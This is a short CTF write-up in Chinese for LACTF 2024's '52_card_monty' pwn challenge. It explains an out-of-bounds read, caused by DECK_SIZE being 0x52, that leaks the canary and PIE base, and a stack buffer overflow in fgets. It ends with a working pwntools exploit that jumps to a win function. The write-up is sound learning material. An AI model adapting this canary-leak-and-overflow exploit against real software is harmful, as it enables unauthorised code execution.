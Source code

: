 ```
[*] '/home/ywc/myworkspace/lactf2024/52_card_monty/monty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

保護全開

```clike
scanf("%d", &index);
leak = cards[index % DECK_SIZE]
```

DECK_SIZE 是 0x52 而不是 52，有 oob 漏洞，可以讀取到 canary 及 return address 來破解 canary 及 PIE

```clike
printf("Name: ");
fgets(name, 52, stdin);
```

由於 name 長度是 20，而這邊可以輸入 52 個字元，有 bof 漏洞

我們可以先用兩次的 leak 得到 canary 和 code base 之後，在猜 queen 那邊隨便猜不影響，而最後輸入名字那邊就能正常 bof 跳 `win` 拿 flag

`solve.py`
```python
from pwn import *
binary = "./monty"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("chall.lac.tf", 31132)
# conn = process(binary)
# conn = gdb.debug(binary)

conn.sendlineafter(b"peek? ", b"55")
conn.recvuntil(b"Peek 1: ")
canary = int(conn.recvline().strip().decode())
print(f"Canary: {hex(canary)}")

conn.sendlineafter(b"peek? ", b"57")
conn.recvuntil(b"Peek 2: ")
leak = int(conn.recvline().strip().decode())
codebase = leak - 0x167e
print(f"codebase: {hex(codebase)}")

#  68: 0000000000001239   171 FUNC    GLOBAL DEFAULT   14 win
win = codebase + 0x1239
conn.sendlineafter(b"lady! ", b"0")

conn.sendlineafter(b"Name: ", b"A"*0x18 + p64(canary) + b"B"*8 + p64(win))

conn.interactive()
```
